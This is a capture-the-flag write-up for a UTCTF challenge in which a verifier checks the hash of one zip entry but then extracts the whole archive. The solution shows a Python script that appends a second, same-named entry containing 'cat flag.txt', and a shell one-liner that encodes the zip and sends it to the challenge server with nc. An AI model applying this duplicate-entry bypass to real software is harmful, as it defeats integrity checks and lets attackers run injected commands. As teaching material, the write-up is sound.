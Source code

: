 #### Challenge:

NOTE: `echo 'Hello world'` is the only "allowed" command. Do not bruteforce other commands.

One of our spies has stolen documentation relating to a new class of missiles. Can you figure out how to hack them?

"We have developed a new protocol to allow reprogramming missiles in flight. We send a base64 encoded string representing a specifically formatted zip file to control these missiles. The missiles themselves verify each command before executing them to ensure that a hacker cannot manipulate them."

A sample message has also been stolen by our spy.

By Aadhithya (@aadhi0319 on discord) [commands.zip.b64](./commands.zip.b64 ":ignore"), [verify_hash.py](./verify_hash.py ":ignore")

`nc betta.utctf.live 12748`

---

#### Solution:

We see that the [verify_hash.py](./verify_hash.py ":ignore") script uses `get_file("commands/command.txt", archive)` to get the file that is checked for the hash, but then runs `archive.extractall()` before running it. In `ZIP` there is a possibility to create multiple files with same name, so after extracting all the files, our injected second file will overwrite the original one and run our evil bash payload. Here's the python script to construct such `ZIP`:

```python
import zipfile
import os

os.system('cat commands.zip.b64| base64 -d > commands_orig.zip')
os.system('cp commands_orig.zip commands.zip')

f = open("command_evil.txt", "w")
f.write("cat flag.txt")
f.close()

zip = zipfile.ZipFile('commands.zip','a')
zip.write('command_evil.txt', 'commands/command.txt')
zip.close()
```

```bash
python3 zipper.py; cat commands.zip | base64 -w 0 | sed 's/$/\n/' | nc betta.utctf.live 12748
```

---

<details><summary>FLAG:</summary>

```
utflag{https://youtu.be/bZe5J8SVCYQ}
```

</details>
<br/>
